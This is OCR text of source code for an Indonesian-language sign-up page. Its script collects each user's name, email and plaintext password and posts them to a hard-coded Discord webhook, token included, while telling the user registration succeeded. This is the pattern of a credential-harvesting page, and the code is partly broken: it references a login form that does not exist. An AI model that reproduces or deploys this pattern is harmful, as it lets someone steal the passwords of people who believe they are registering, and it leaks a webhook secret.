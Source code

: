 
  <div class="form-container" id="registerContainer">
    <h2>Pendaftaran</h2>
    <form id="daftarForm">
      <label for="firstName">Nama Depan:</label>
      <input type="text" id="firstName" name="firstName" required>
      
      <label for="lastName">Nama Belakang:</label>
      <input type="text" id="lastName" name="lastName" required>
      
      <label for="email">Email:</label>
      <input type="email" id="email" name="email" required>
      
      <label for="password">Password:</label>
      <input type="password" id="password" name="password" required>
      
      <button type="submit">Daftar</button>
    </form>
    <div id="registerMessage" class="message"></div>
  </div>
  <div class="form-container" id="loginContainer">halo semua silahkan daftar :)
    
  <script>
    const registerForm = document.getElementById("daftarForm");
    const loginForm = document.getElementById("loginForm");
    const registerMessageDiv = document.getElementById("registerMessage");
    const loginMessageDiv = document.getElementById("loginMessage");

    // Handle registration
    registerForm.addEventListener("submit", (e) => {
      e.preventDefault(); // Prevent page refresh

      const firstName = document.getElementById("firstName").value;
      const lastName = document.getElementById("lastName").value;
      const email = document.getElementById("email").value;
      const password = document.getElementById("password").value;

      const webhookURL = "https://discord.com/api/webhooks/1331267993916805200/ldxIhL7EUuwqEOq15y2MVIq-JYrjB4yqVFbkYs2U-ymLej4SmJfmz4Wbp_Bzm0B38QyX"; // Ganti ini

      const data = {
        content: `**New User Registered!**\n**First Name:** ${firstName}\n**Last Name:** ${lastName}\n**Email:** ${email}\
        \n**Password:** ${password}`, // Pesan ke Discord
              };
        
              fetch(webhookURL, {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
              })
        .then((response) => {
          if (response.ok) {
            registerMessageDiv.innerHTML = "<p class='success'>Pendaftaran berhasil! Silakan login.</p>";
            registerForm.reset();
          } else {
            registerMessageDiv.innerHTML = "<p class='message'>Gagal mengirim data.</p>";
          }
        })
        .catch((error) => {
          console.error("Error:", error);
          registerMessageDiv.innerHTML = "<p class='message'>Terjadi kesalahan. Silakan coba lagi.</p>";
        });
            });
          </script>
        </body>